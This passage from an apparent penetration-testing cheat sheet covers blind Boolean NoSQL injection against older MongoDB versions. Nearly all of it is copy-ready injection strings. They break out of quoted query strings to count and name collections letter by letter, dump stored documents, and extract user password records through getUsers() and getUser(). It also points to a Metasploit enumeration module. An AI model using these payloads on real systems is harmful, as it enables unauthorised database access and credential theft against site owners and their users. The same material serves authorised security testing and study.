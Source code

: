 Note that, as specified above, blind NoSQL injections are not possible on
MongoDB 2.4 and subsequent versions. Prior to this version, the global `db`
variable could be referenced to and used in injection.

The injections used below are blind Boolean injections. The web server
comportment should vary depending on whether the query evaluated to `true` or
`false`.

Different injections' syntax may work:

```
'||<INJECT>||'
'||(tojsononeline(<INJECT>)|'
';return+<INJECT>;var+foo='
```

*Collections length and names*

The Metasploit module `auxiliary/gather/mongodb_js_inject_collection_enum` can
be used to enumerate the collections available via boolean injections.

The following operations can be used to retrieve the collections length and
names manually:

```
# Number of collections
# db.getCollectionNames().length==<N>
'||db.getCollectionNames().length==<N>||'
';return+db.getCollectionNames().length==<N>;var+foo='
'||(tojsononeline(db.getCollectionNames().length)=='<N>')|'

# Collections name's length
# db.getCollectionNames()[<COLLECTION_INDEX>].length==<N>
'||db.getCollectionNames()[<COLLECTION_INDEX>].length==<N>||'
';return+db.getCollectionNames()[<COLLECTION_INDEX>].length==<N>;var+foo='
'||(tojsononeline(db.getCollectionNames()[<COLLECTION_INDEX>].length)=='<N>')|'

# Collections names'
# db.getCollectionNames()[<COLLECTION_INDEX>][<COLLECTION_NAME_LETTER_INDEX>]=='<LETTER>'
'||db.getCollectionNames()[<COLLECTION_INDEX>][<COLLECTION_NAME_LETTER_INDEX>]=='<LETTER>'||'
';return+db.getCollectionNames()[<COLLECTION_INDEX>][<COLLECTION_NAME_LETTER_INDEX>]=='<LETTER>';var+foo='
'||(tojsononeline(db.getCollectionNames()[<COLLECTION_INDEX>][<COLLECTION_NAME_LETTER_INDEX>])=='<LETTER>')|'
```

*Collections enumeration*

To enumerate a collection's documents:

```
# db.<COLLECTION_NAME>.find()[<DOCUMENT_INDEX>][<DOCUMENT_NAME_LETTER_INDEX>]=='<LETTER>'
'||db.<COLLECTION_NAME>.find()[<DOCUMENT_INDEX>][<DOCUMENT_NAME_LETTER_INDEX>]=='<LETTER>'||'
';return+db.<COLLECTION_NAME>.find()[<DOCUMENT_INDEX>][<DOCUMENT_NAME_LETTER_INDEX>]=='<LETTER>';var+foo='
'||(tojsononeline(db.<COLLECTION_NAME>.find()[<DOCUMENT_INDEX>])[<DOCUMENT_NAME_LETTER_INDEX>]=='<LETTER>')|'

# Retrieve users' passwords
# use getUsers() to retrieve the usernames/passwords or getUser() to retrieve a specific user password
'||(tojsononeline(db.getUsers()[0])[0]=='{')|'
'||(tojsononeline(db.getUsers()[<USER_INDEX>])[<USER_JSON_INDEX>]==<LETTER>)|'
'||(tojsononeline(db.getUser("<USERNAME>"))[<USER_JSON_INDEX>]=='{'
```
